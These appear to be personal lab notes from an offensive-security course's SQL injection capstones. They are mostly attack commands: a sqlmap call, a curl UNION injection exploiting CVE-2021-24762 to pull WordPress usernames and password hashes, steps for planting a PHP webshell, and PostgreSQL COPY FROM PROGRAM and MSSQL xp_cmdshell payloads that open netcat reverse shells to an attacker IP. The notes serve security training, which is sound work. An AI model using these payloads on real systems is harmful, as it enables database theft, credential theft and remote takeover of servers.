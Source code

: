 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 192.168.182.72
---
```

- sqlmap -u http://alvida-eatery.org/?s=asdf -p s
Tools for psql injection:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
# Capstone
## Capstone 1
- Got SQLi using CVE-2021-24762
- curl "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users"
## Capstone 2
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#using-copy-tofrom-program
- Capture the request of subscribing newsletter with Burp and test the parameter for sqli vulnerability with a single quote ('). 
- Use an ORDER BY query to determine the number of columns in the vulnerable parameter. 
- To find the correct column, you can test the "@@version" payload for each column to check if you are retrieving the database version. 
- Inject a simple php webshell payload using a "union select" query and "into outfile" write the webshell to the /var/www/html directory.
- Access the webshell for RCE and execute commands on the server.
## Capstone 3
1) Test for SQL injection by adding a single quote (') to each input parameter and check for errors. 
2) Based on the error received, check which DBMS you are facing. 3) Based on the target DBMS, try to get a code execution. 
3) Code execution on PostgreSQL DBMS is slightly different than MSSQL or Mysql DBMSes. Copy statement should be used. 
4) Check out CVE-2019-9193: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution")
5) Payload:
	```
	weight=89&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.249+443'%3b--&age=24&gender=Male&email=test%40offsec.com
	```

## Capstone 4
1) Test the username or password fields by adding a single quote('). If there's an error or strange behavior, it might indicate SQL injection. 
2) Use time-based payloads to identify the database system. 
3) Once the db system is known, look for specific vulnerabilities to gain further access. 
4) For MSSQL, check and enable xp_cmdshell if necessary including advanced options.
5) Payloads look like this:
	```
	';EXEC xp_cmdshell 'c:/windows/temp/nc64.exe -e cmd.exe 192.168.45.199 4444';--
	```
